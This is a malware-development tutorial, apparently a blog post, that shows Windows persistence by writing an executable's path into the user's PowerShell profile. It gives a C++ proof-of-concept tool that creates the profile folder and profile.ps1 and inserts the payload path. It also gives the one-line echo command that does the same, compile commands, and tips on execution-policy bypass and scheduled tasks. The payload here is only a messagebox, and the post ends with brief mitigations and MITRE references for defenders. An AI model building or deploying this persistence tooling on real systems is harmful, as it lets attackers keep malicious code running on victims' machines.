




\newpage
\subsection{77. malware development: persistence - part 11. Powershell profile. Simple C++ example.}

﷽

{width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via powershell profile.    

### powershell profile

A PowerShell profile is a powershell script that allows system administrators and end users to configure their environment and perform specified commands when a Windows PowerShell session begins.     

The PowerShell profile script is stored in the folder `WindowsPowerShell`:    

{width="80%"}    

Let's add the following code to a to the current user's profile file, that will be performed whenever the infected user enters a powershell console:    

`Z:\2022-09-20-malware-pers-11\hack.exe`    

I will demonstrate everything with a practical example and you will understand everything.    

### practical example

Firstly, create our "malicious" file:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As usually it is just "meow-meow" messagebox.    

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And we can run at victim machine for checking correctness:    

{width="80%"}    

Then we do this simple "trick":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > 
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

And finally, run powershell:    

```powershell
powershell -executionpolicy bypass
```

{width="80%"}    

{width="80%"}    

As you can see, our malicious logic executed as expected and powershell is the parent process of our messagebox. =^..^=    

I created a simple PoC code to automate this process:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

The logic is simple, this script just create profile folder if not exists, then create profile file and update it.     

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And run it on the victim's machine:    

```powershell
.\pers.exe
```

{width="80%"}    

{width="80%"}    

And when powershell session is started:        

{width="80%"}    

If we check it via Process Hacker:     

{width="80%"}    

`powershell.exe` is the parent process again as expected.     

As you can see everything is worked perfectly! =^..^=    

But there are the caveat. If powershell runned without execution policy bypass mode, this persistence trick not work in my case:    

{width="80%"}    

Also there are four places you can abuse the powershell profile, depending on the privileges you have:   

```powershell
$PROFILE | select *
```

{width="80%"}    

By storing arbitrary instructions in the profile script, PowerShell profiles present several chances for code execution. To avoid relying on the user to start PowerShell, you may use a scheduled job that executes PowerShell at a certain time.      

### mitigations

Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified. Also you can avoid PowerShell profiles if not needed, for example via `-No-Profile` flag.    

This persistence trick is used by [Turla](https://attack.mitre.org/groups/G0010/) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
